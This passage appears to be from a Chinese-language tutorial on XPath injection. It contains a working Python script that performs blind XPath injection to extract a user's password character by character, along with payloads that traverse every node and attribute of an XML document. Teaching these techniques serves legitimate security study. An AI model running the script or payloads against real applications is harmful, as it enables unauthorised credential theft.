 ### 自动化盲注工具
可以编写脚本自动化盲注过程，例如：

```python
import requests
import time

def xpath_blind(url, xpath_param):
    charset = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"
    result = ""
    pos = 1
    
    # 先确定长度
    length = 0
    for i in range(1, 30):
        payload = f"' and string-length(//user[1]/password/text())={i} and '1'='1"
        r = requests.get(url, params={xpath_param: payload})
        if "登录成功" in r.text:
            length = i
            break
    
    print(f"Password length: {length}")
    
    # 逐位猜解
    for i in range(1, length+1):
        for char in charset:
            payload = f"' and substring(//user[1]/password/text(),{i},1)='{char}' and '1'='1"
            r = requests.get(url, params={xpath_param: payload})
            if "登录成功" in r.text:
                result += char
                print(f"Found character at position {i}: {char}")
                break
    
    return result
```



### 节点遍历技术
使用特殊的XPath表达式可以遍历整个XML文档：

```python
# 获取所有节点
']|//*|//*['

# 获取所有属性
']|//@*|//*['
```

### 命名空间绕过
#### 什么是空间命名
```python
<root xmlns:a="http://example.com/a" xmlns:b="http://example.com/b">
  <a:user>admin</a:user>
  <b:user>guest</b:user>
</root>
```
